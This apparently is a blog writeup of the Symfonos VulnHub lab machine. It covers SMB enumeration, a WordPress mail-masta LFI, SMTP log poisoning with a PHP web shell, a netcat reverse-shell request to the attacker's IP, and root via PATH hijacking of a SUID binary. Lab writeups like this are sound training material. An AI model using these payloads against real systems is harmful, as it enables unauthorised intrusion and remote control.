 ```yaml
---
layout: post
title: Vulhub - Symfonos writeup
date: 2019-07-04 12::10
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-1,322/">Symfonos</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap

![](images/sym/nmap.png)

Okay we see SMB port open so let's just run `enum4linux` and see what we can find more information about it.

![](images/sym/enum4linux.png)

We can see that we are allowed to list `/anonymous` share, this can be done using `smbclient`.

![](images/sym/smb-anon.png)

***

__Command explanation__
```bash
➜ smbclient //192.168.43.222/anonymous -U % -N
```

Here the `-U` is for `username` and `%` basically uses `single-space` as the username.

The `-N` argument is used for `No-password`

For more detail you can read: [stackexchange/accessing-a-smb-share-without-a-password](https://unix.stackexchange.com/questions/65106/accessing-a-smb-share-without-a-password)

***

Now we can use `get` command to get that file to our machine and then read it.

![](images/sym/get.png)

We can see that there are passwords in this file which is pretty good, we won't have to bruteforce anything :)

## Dirsearch

Now shifting my focus to the website that was running on port `80`. I decided to run `dirsearch`.

![](images/sym/dirsearch.png)

None of them were useful in anyway.

***

After spending more then an hours searching through SMTP and the `anonymous` smb share I finally found something, actually I thought of something and that got me something.

I tried reading the `heilos` SMB share with all the password I got from `attention.txt` and to my surprise it worked.

```bash
➜ smbclient //192.168.43.222/helios -U helios
```

The password was `qwerty`

![](images/sym/helios-smb.png)

**I should've tried this the moment I got some random passwords.** 🤦‍♂️

We can see that there's suppose to be `h3l105/` on the website.

***

Visiting that webpage I got a wordpress website so I decided to use `wpscan`.

```bash
$ wpscan --url http://192.168.43.222/h3l105/ --wp-content-dir wp-content --enumerate u
```

With this command I was only able to get a single user named `admin`

![](images/sym/user.png)

After scratching my head for quite sometime I decided to talk to one and only [__@DCAU7__](https://twitter.com/DCAU7), he provided me with the right command from which I was able to get some vulnerable plugins.

```bash
➜ wpscan --url http://symfonos.local/h3l105/ -e p --no-banner --no-update
```

![](images/sym/vuln.png)

***

__Problem with WPSCAN__

The actual problem was that when I first tried uing wpscan I was using the IP of the machine. But then I edited my `/etc/host` file by adding following line to it:

```
IP     symfonos.local
```

After that instead of using the IP I used `symfonos.local` in wpscan and it gave the vuln plugin. Anyway, back to work.

***

Since we don't have the credentials for WP login we'll use the [unauthenticated LFI](https://www.exploit-db.com/exploits/40290)

We try the link that is mentioned in the exploit i.e `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd` and it works.

![](images/sym/passwd.png)

After searching a lot on `how to get reverse shell via LFI` and trying to read other files from the system I was able to read the `helios` mail file in `/var/mail/`

![](images/sym/reset.png)

Using this link we can reset the password and login into the wordpress.

***

At first I thought this is it because now we can just get a reverse shell via themes but that thing didn't worked. I tried updating the `404.php` template of the `twentynine` theme but whenever I clicked on the `update file` button I got an error.

![](images/sym/error.png)

We can't edit any file there because the wordpress removed the support to edit templates from dashboard sometime ago and since this wordpress is latest verion i.e 5.2.2, it isn't working in this.

This seems like a dead end.

***

I went back to reading files and then I stubled upon this article called [`SMTP Log Poisioning through LFI to Remote Code Excecution`](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/). I followed the article and was able to poision the logs and have RCE.

![](images/sym/send-mail.png)

After this if we read the `/var/mail/helios` we can see

![](images/sym/mail.png)

Here I tried lot of the reverse shell payload from [PayloadsAllTheThings/reverse-shell-cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
but none of them work.

After talking with the author they said I should URL encode the payload before using it. And that one worked.

```bash
➜ http http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php\?pl\=/var/mail/helios\&c\=nc%20-e%20%2Fbin%2Fsh%20192.168.43.70%204444

```

![](images/sym/reverse.png)

***

It's time to enumerate to find our key to `pwning root`. I used enumeration script to do that part:

![](images/sym/suid.png)

So there's a SUID file which isn't present there ususally. Let's see what it does:

![](images/sym/statuscheck.png)

It's printing some header information. Since it's a binary we can't see exactly what's  inside it but we can still run `strings` on the binary to see if we find can something.

![](images/sym/strings.png)

If we look carefully we can see
```
curl -I
http://l
ocalhost
```

this mean it's using `curl -I http://localhost` and we are getting only the headers because it's using `-I` argument.

We can easily exploit this because the problem with this is that it's using `curl` and not `/bin/curl` or something like that. So we can just make our own curl file and then run the SUID binary to get the root shell.

![](images/sym/exploit.png)

* `echo $'#!/bin/sh\n/bin/sh' > curl`: This will make a file named `curl` which will have `/bin/sh` in it.
* `chmod +x curl`: We change the permission for the file to make it executable.
* `export PATH=$(pwd):$PATH`: This will add the current path to the `PATH` variable.

__NOTE__: run the export command from the directory you've made the `curl` file in. In my case I did all of the above from `/tmp`.

After this we can just read the flag file which in this case was named `proof.txt`

![](images/sym/root.png)

***

## Another method for Reverse shell

There's one other method to get a reverse shell on the system. Instead of just sending

```php
<?php system($_GET['c']); ?>
```

We can send the complete php reverse shell([php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)) in the email data.

And when we'll try to read the email it will trigger the shell.

This is probably the faster way to get the reverse shell.

@DCAU7 told me about this neat trick.


***

This was really awesome machine, I got to learn a lot from this machine.

__Thanks to:__

* [@zayotic](https://twitter.com/zayotic) for creating an awesome machine,
* [@DCAU7](https://twitter.com/DCAU7) for helping me out.
